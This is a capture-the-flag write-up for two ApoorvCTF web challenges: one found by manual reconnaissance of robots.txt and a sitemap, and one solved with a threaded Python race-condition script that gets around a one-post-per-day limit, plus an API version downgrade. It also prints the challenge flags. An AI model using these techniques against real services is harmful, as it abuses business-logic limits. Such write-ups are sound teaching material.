


# Apoorvctf

1. By `HM`
- https://hackmd.io/@hmmm1337/ryLYSEXskx
    - ArchBTW
    - Blend in Disguise

2. By `Bytecodesky`

# SEO CEO - WEB
They're optimizing SEO to show this garbage?!

> Author: proximuz

[Web chall](https://seo-opal.vercel.app)

At first glance we can not do anything on the page, we do not have any functionality or vulnerability.
Automatically you think of doing reconnaissance, but you can't use automated tools, so you have to do a manual reconnaissance.
we start with the most common of all `/robots.txt`.

and we obtain the following

```
blud really thought itd be that easy
apoorvctf{c0me_0n_mAn_it5_t0o_e4sy}

```
we continue scanning the page, and go to `/sitemap.xml`.

```
<url>
<loc>https://www.thiswebsite.com/goofyahhroute</loc>
<lastmod>2025-02-26</lastmod>
<changefreq>never</changefreq>
<priority>0.0</priority>
</url>
```
and within the whole sitemap we found something interesting, apparently an example page that leads to a certain address, but obviously that domain is not valid, so the directory is a signal.

We enter `/goofyahhroute` and we get this
```
ok bro u da seo master gng frfr ngl no cap
but do you really want the "flag"?
come on blud, it's a yes or no question
yeah?
```

then we can deduce that we must pass the parameter **flag** and as value **yes**.
`/goofyahhroute?flag=yes`
and obtain the flag: `apoorvctf{s30_1snT_0pt1onaL}`

2. By `x.two`

# Blog-1 - Web

### Description

In the digital realm, Blog-1 awaited brave developers. The mission? Craft a captivating blog with enchanting posts, lively comments, and secure user authentication. Create a functional and visually stunning masterpiece. Ready for the Blog-1 adventure?


### Solution

We have basic web page where we can register user and login with it. Exploring menu items, we have option of `Daily Rewards`




We can see that we have to write 5 blogs to claim the reward (which is probably our flag). But when we try to write 2 blogs, it tells us that we can only write one blog per day. This suggests that there might be a race condition vulnerability, where we can send multiple concurrent requests.

I used this script to write multiple blogs at once:


```python
import requests
import threading
import time
import uuid

SUCCESS_COUNT = 0
SUCCESS_LOCK = threading.Lock()
BARRIER = threading.Barrier(5)  # Strict synchronization for 5 warriors

def domain_expansion(session):
    global SUCCESS_COUNT
    try:
        # Wait for all threads to reach this point
        BARRIER.wait()
        
        url = "http://chals1.apoorvctf.xyz:5001/api/v1/blog/addBlog"
        headers = {
            "authorization": "Bearer [token]",
            "Content-Type": "application/json",
            "X-Request-ID": str(uuid.uuid4())  # Bypass duplicate request detection
        }
        
        payload = {
            "title": f"Limitless Void {uuid.uuid4().hex[:6]}",  # Unique title each request
            "description": "Cursed Technique: Maximum Output",
            "content": "Domain Expansion: Infinite Void"
        }

        # Surgical strike with precise timing
        response = session.post(
            url,
            headers=headers,
            json=payload,
            timeout=15  # Extended timeout for server processing
        )

        if response.status_code == 201:
            with SUCCESS_LOCK:
                SUCCESS_COUNT += 1
                print(f"Domain expanded! Success #{SUCCESS_COUNT}")
        else:
            print(f"Blocked: {response.status_code} | {response.text}")

    except Exception as e:
        print(f"Curse energy leak: {str(e)}")

if __name__ == "__main__":
    # Create 5 dedicated cursed techniques
    sessions = [requests.Session() for _ in range(5)]
    
    threads = []
    for i in range(5):
        t = threading.Thread(target=domain_expansion, args=(sessions[i],))
        threads.append(t)
        t.start()
        time.sleep(0.001)  # Nanosecond-level stagger
    
    # Wait for all techniques to complete
    for t in threads:
        t.join()
    
    print(f"\nTotal successful domain expansions: {SUCCESS_COUNT}")
    print("If <5, repeat until the barrier breaks!")
```


And we successfully wrote 5 blogs. Visiting `Daily Reward` option sends request to `/api/v2/gift` endpoint which contains this:




This links to a troll youtube video:

https://youtu.be/WePNs-G7puA?si=DOUFW9vAgUKdClxX


But changing the endpoint back to `/api/v1/gift` gives us our flag:

apoorvctf{s1gm@_s1gm@_b0y}
